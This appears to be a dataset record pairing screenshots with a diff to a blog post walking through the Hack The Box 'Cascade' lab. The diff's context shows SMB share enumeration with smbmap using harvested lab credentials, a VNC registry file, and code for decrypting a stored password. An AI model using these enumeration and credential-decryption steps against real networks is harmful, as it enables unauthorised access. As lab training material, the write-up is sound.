

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2020-07-29-Hackthebox-Cascade-Walkthrough.md, in a window 1280 px wide and 900 px high, scrolled down 22634 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
add cascade-walkthrough

````diff
--- a/_posts/2020-07-29-Hackthebox-Cascade-Walkthrough.md
+++ b/_posts/2020-07-29-Hackthebox-Cascade-Walkthrough.md
@@ -221,7 +221,7 @@ root@kali:~# smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
 	SYSVOL                                            	READ ONLY	Logon server share
 ```
 
-In `\Data`, we have some interesting files.
+In `/Data`, we have some interesting files.
 ```shell
 root@kali:~# smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva -R data
 [+] IP: 10.10.10.182:445	Name: 10.10.10.182
@@ -289,7 +289,7 @@ NT_STATUS_ACCESS_DENIED listing \Temps\*
 smb: \>
 ```
 
-In `IT/Temp/s.smith`, we can find a configuration file `VNC Install.reg`.<br>
+In `IT/Temp/s.smith`, we can find a configuration file `VNC Install.reg`.
 ```shell
 root@kali:~/IT/Temp/s.smith# cat 'VNC Install.reg'
 ��Windows Registry Editor Version 5.00
@@ -550,7 +550,7 @@ Enter WORKGROUP\s.smith's password:
 SMB1 disabled -- no workgroup available
 ```
 
-
+Then, take a look at the newly obtained share `Audit$`.
 ```shell
 root@kali:~# smbmap -H 10.10.10.182 -u s.smith -p sT333ve2 -R Audit$
 [+] IP: 10.10.10.182:445	Name: 10.10.10.182
@@ -840,8 +840,8 @@ public static string DecryptString(string EncryptedString, string Key)
 		}
 ```
 
-To get the password to log in, we have to write a .NET code
-Actually, if we google, we can find someone's left the code here [https://dotnetfiddle.net/2RDoWz](https://dotnetfiddle.net/2RDoWz).
+To get the password to log in, we have to write the following .NET code.<br>
+Actually, if we google the encrypted password `BQO5l5Kj9MdErXx6Q6AGOw==`, we can find someone's left the code here [https://dotnetfiddle.net/2RDoWz](https://dotnetfiddle.net/2RDoWz).
 ```shell
 using System;
 using System.IO;
````
Also changed, not shown: other parts of _posts/2020-07-29-Hackthebox-Cascade-Walkthrough.md (+1 -1 lines).
